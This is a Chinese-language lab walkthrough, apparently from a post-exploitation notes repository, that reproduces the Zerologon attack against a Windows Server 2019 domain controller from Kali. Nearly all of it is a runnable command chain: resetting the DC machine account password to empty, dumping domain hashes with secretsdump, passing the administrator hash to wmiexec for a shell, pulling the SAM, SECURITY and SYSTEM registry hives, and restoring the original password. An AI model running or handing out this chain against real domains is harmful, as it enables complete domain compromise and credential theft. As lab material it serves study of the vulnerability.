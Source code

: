 域环境搭建参见：https://github.com/ybdt/post-hub/blob/main/7-横向移动/2021_07_03_域环境搭建/readme.md

受害机器：Win2019_x64_zh-cn  
攻击机器：kali  

```
git clone https://github.com/risksense/zerologon
git clone https://github.com/SecureAuthCorp/impacket
cd ./impacket && pip3 install .
```

复现过程共5个步骤

步骤1：在第一个终端下置空域控的机器用户密码：
```
cd ./zerologon
python3 ./set_empty_pw.py WIN-184MQ8D0KOO 192.168.202.138
其中WIN-184MQ8D0KOO为域控的计算机名，192.168.202.138为域控的ip地址
定位域控可通过命令：net time /domain
```
如下图：  
![image](./pic/1.png)

步骤2：在第二个终端下提取域控中存储的密码哈希：
```
cd ./impacket/examples/
python3 ./secretsdump.py -no-pass -just-dc ybdt.best/WIN-184MQ8D0KOO\$@192.168.202.138
这里要注意$前有一个\，否则会报错名字或服务未知
```
![image](./pic/2.png)

步骤3：在第三个终端下使用提取的administrator的密码哈希执行命令，拿到伪交互式shell：
```
cd ./impacket/examples/
python3 ./wmiexec.py ybdt.best/administrator@192.168.202.138 -hashes :a87f3a337d********f9416be5787d86

reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
lget sam.save
lget security.save
lget sysetm.save
del sam.save
del security.save
del system.save
```
如下图：  
![image](./pic/3.png)

步骤4：在第四个终端下提取原机器用户的密码哈希
```
python3 secretsdump.py -sam sam.save -system system.save -security security.save local
```
如下图：  
![image](./pic/4.png)

步骤5：在第五个终端下恢复原机器用户的密码哈希
```
python3 ./reinstall_original_pw.py WIN-184MQ8D0KOO 192.168.202.138 ffdab15f085c47cec9de338787e3a66c37004a694e1b0d87f675851b5b860ce16988ffa47b2a85d6e5c7af761ef9ef50a53dabfe6b62d9207a7519a6642548fd6c5ac5a0853446c178aef63da854daf6da389d7ce5c4abd1823f43aea1edde71e6d9e47933638fa06a41c3c79fa862577af77287abbadd77f5675d89c166f8e26e232693564fba153f38ccc3032b639691bd667015e5c5846251a67caaac75bf5255264600587222f7583182eb19d3e17284dbd7774a24216ad9ab601067578155c690d27044bf6765e6665bea36b0f059ae000ae9bfcc908b097b5085bdda71b883360d5a4eab76b5d2dd57b383b9
```
如下图：  
![image](./pic/5.png)

